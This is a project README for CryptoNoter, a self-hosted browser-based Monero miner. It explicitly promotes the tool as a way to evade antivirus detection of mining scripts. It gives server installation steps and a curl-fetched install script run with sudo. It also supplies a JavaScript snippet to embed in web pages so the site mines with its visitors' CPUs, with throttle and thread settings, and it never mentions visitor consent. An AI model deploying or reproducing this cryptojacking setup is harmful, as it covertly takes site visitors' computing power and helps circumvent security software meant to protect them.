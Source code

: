 ## CryptoNoter v1.2
`Open Source Project` `"Plug & Play" Installation` `Set Up Within 10 Mins`<br />
In-Browser Javascript XMR miner for websites / Payout towards personal XMR wallet<br />
Built for in-browser javascript mining on any Monero pools. 0% Commission. 100% Payout
* You can set up CryptoNoter wthin 10 minutes if you have basic knowledge of server set-up. If you are a newbie, you might need to take some time to set up CryptoNoter

## Why This Open Source Project Is Created
* Websites that use Javscript browser miners (Coinhive, Crypto-Loot, etc) are specifically targeted by most anti-virus softwares including the built-in Windows Defender. When visitors visit these websites, they will be notified that malicious codes / viruses have been detected on these websites. Well, you should know how such notifications affect the website. In addition, you get charged up to 30% commission by these javscript mining platforms.

This open source project is created to bypass detection and avoid being flagged as malicious websites by running your own Javscript Mining Server and deploying it on your websites. It is similar to Coinhive idea, however you do not have to be charged for any percent of your earnings. You can point to any Monero mining pool and get 100% for your mining efforts. (Of course, less the pool fees)

## Requirements
The project is a basically a "Plug & Play" installation. Most of the configurations are setup automatically when you run the installation. Simply follow the steps by steps installation. 

However, if you decide to modify or optimize CryptoNoter for maximum mining capabilities, you will need good knowledge on Nginx Reverse Proxy, javascript, etc. For example, we did approx 1550 H/s for a website with approx 15,000 visitors (Avg Time on Page: 55 secs / visitor) before optimization. After optimization, we are doing on avg 3500 H/s

`Minimum System Requirements`
1. Server with at least 1 CPU, 1 GB Ram & 8GB Harddisk [You will need better specs if you have higher traffic load]
2. Ubuntu(Debian) OS
3. Nginx, Nodejs, NPM & Forever Packages
4. SSL Support For Domain. Use https://certbot.eff.org/

`IMPORTANT NOTE:` DO NOT USE GOOGLE COMPUTE ENGINE (GCE) or other related Google CLoud Services for crypto-mining services. It is in violation of their TOS. Google will suspend your account, lock your files and charge you for the usage. Been there, done that. So don't waste your precious time.

## Installation
```bash
Install Nginx
sudo apt-get update
sudo apt-get install nginx
```

Install NodeJs & NPM
```bash
sudo apt-get update
sudo apt-get install nodejs
sudo apt-get install npm
```

Install CryptoNoter
```bash
curl https://raw.githubusercontent.com/cryptonoter/CryptoNoter/master/install.sh > install.sh
sudo sh install.sh
```

* Install Control Panel (Vesta CP or Cpanel)
* Add Your Domain via Control Panel
* Set Up Your Domain DNS Properly & Configure Firewalls
* Use CertBot To Assign SSL For Your Domain
* Login Via FTP and Upload The Files Within The `web` Folder To Your Domain

## Usage
* Run CryptoNoter server.js script
```bash
forever start /srv/CryptoNoter/server.js
```
* Make sure CryptoNoter server.js script is running on the server by using the command `forever list`
```bash
info:    Forever processes running
data:        uid  command       script                     forever pid  id logfile                 uptime
data:    [0] tX4L /usr/bin/node /srv/CryptoNoter/server.js 7379    7385    /root/.forever/tX4L.log 0:0:59:11.96
```
* Make sure you have uploaded the web folder to your domain public_html or domain root. Ensure you can access https://YOUR_DOMAIN_NAME/demo.html

* Add the following javascript before the </head> tag onto webpages that you want the miner to run on. Remember to replace www.cryptonoter.com with your domain name. Else, you will be mining for my wallet
```html
<script src="https://www.cryptonoter.com/processor.js"></script>
<script>
    var miner = new CryptoNoter.Anonymous('CryptoNoter').start();
</script>
```
* Done! You can now start mining using your visitors' CPU resources by adding the above tag to any of your websites.

## JS Miner Documentation
There are parameters that you can preset within the javscript miner script.

*`autothreads(value)`
The number of threads the miner should start with. Set to true is to auto detect the number of CPU cores available on the user's computer.

*`throttle(value)`
Set the fraction of time that threads should be idle. A value of 0 means no throttling (i.e. full speed), a value of 0.5 means that threads will stay idle 50% of the time, with 0.8 they will stay idle 80% of the time.

Here are some basic configuration for the parameters:
```html
<script src="https://www.cryptonoter.com/processor.js"></script>
<script>
	var addr = 'CryptoNoter';
	var miner = new CryptoNoter.Anonymous(addr, {
        autoThreads: true,
	throttle: 0.8
	});
	miner.start();
</script>
```

## Troubleshooting
Check if server.js execute successfully by using this command
```bash
node /srv/CryptoNoter/server.js
```
If script executes successfully, it should show:
```bash
In-Browser Javascript XMR miner for websites / Payout towards personal XMR wallet
Built for in-browser javascript mining on any Monero pools. 0% Commission. 100% Payout

 Listen on : 127.0.0.1:7777
 Pool Host : monero.us.to:1111
 Ur Wallet : YOUR_WALLET_ADDRESS
```
If script executes unsucessfully, it should show error logs. Troubleshoot by referring to the errors shown.
`For example:` The error log shown below means that the port 7777 is currently in use. `To resolve:` Simply listen to the port 7777, identify the process that is using the port and kill the process. Then try executing the script server.js again
```bash
Error: listen EADDRINUSE 127.0.0.1:7777
    at Object._errnoException (util.js:1024:11)
    at _exceptionWithHostPort (util.js:1046:20)
    at Server.setupListenHandle [as _listen2] (net.js:1351:14)
    at listenInCluster (net.js:1392:12)
    at doListen (net.js:1501:7)
    at _combinedTickCallback (internal/process/next_tick.js:141:11)
    at process._tickCallback (internal/process/next_tick.js:180:9)
    at Function.Module.runMain (module.js:678:11)
    at startup (bootstrap_node.js:187:16)
    at bootstrap_node.js:608:3
```
`Common Issues & Bugs:`
1. Port in use. Check if the port is listening?
2. Connection errors are commonly casused by iptables. Check your firewall settings
3. CryptoNoter not generating hashes. Check your config.json setting
4. Check the setting of nginx.conf, config.json, worker.js, processor.js & cryptonight-asmjs.min.js

If you have any questions on Troubleshooting & Debugging, please ask the questions here: https://github.com/cryptonoter/CryptoNoter/issues/1

